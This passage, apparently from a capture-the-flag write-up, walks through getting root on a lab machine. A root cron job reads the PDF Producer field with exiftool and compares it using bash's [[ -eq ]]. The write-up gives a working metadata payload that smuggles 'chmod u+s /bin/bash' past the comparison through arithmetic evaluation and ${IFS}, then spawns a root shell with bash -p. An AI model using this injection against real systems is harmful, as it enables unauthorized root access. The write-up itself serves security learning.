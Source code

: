 This script loops through files in `/tmp`, running `exiftool` on each to get the Producer field from metadata.  If this field is `dompdf` (somewhat expected when our web app uses this engine to generate temp PDF files we can download), then the file is deleted.  We can see this looks to be initiated regularly as a cron job, and runs as root (UID=0).

The first thing standing out is that maybe we can command inject by setting the Producer metadata field -- given we can write to and control files in `/tmp`.  However, our script above `cut`s on space, so we either need to use a space bypass technique such as base64 or the Internal Field Separator in bash -- which is the environment variable `$IFS` used by bash for determining separated word sequences.

I kept getting syntax errors here, until I came across this: [Bash's white collar eval: [[ $var -eq 42 ]] runs arbitrary code too &#8211; Vidar's Blog](https://www.vidarholen.net/contents/blog/?p=716)

The script checks producer using `[[ "$meta_producer" -eq "dompdf" ]];` which is vulnerable to arbitrary code execution.  In essence, we can force the `eq` operator to evaluate `"$meta_producer"` as an arithmetic expression. Bash will evaluate constructs such as `a[$(whoami)]+42` where the shell expects an integer -- given we are indexing into array `a[]` and adding integer 42.

With that in mind, we set the Producer metadata field on a test PDF.  This will use `chmod` to set the SetUID bit on `/bin/bash` for the owner (hence the `u+s`, where `u` is root). We also include the Internal Field Seperator `${IFS}` as mentioned above, to bypass `cut`.  This should allow us to run bash as root:

```bash
$exiftool -Producer='a[$(chmod${IFS}u+s${IFS}/bin/bash)]+42' test.pdf
    1 image files updated

$exiftool test.pdf
ExifTool Version Number         : 12.16
File Name                       : test.pdf
Directory                       : .
File Size                       : 4.5 KiB
File Modification Date/Time     : 2023:04:01 21:01:52+11:00
File Access Date/Time           : 2023:04:01 21:01:52+11:00
File Inode Change Date/Time     : 2023:04:01 21:01:52+11:00
File Permissions                : rwxr-x---
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.7
Linearized                      : No
Page Count                      : 1
XMP Toolkit                     : Image::ExifTool 12.16
Producer                        : a[$(chmod${IFS}u+s${IFS}/bin/bash)]+42
Create Date                     : 2023:04:01 08:11:14+00:00
Modify Date                     : 2023:04:01 08:11:14+00:00
```

We use `wget` to retrieve this PDF, and save this into `/tmp/test.pdf` on our target, and wait a little for the cron job to kick in.  We see `/bin/bash` with SUID bit set, and we are able to run `bash -p`, to not reset the effective user ID, so bash runs in privileged mode as root -- giving us a root shell, and the root flag!:

